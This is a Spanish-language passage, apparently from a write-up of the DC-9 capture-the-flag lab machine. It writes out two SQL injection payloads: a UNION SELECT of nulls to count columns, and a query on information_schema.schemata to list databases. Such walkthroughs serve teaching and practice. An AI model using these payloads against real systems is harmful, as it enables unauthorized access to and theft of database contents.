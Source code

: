 ![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%201.png)

Y veo que es vulnerable a sqli por lo que paso a obtener información de la base de datos.

Primero obtengo el numero de columnas añadiendo el valor null por cada columna hasta que obtenga respuesta con la siguiente consulta:

```bash
Mary' union select null,null,null,null,null,null-- -
```

Después paso a listar las bases de datos que hay, con la siguiente consulta:

```sql
Mary' union select null,schema_name,null,null,null,null from information_schema.schemata-- -
```
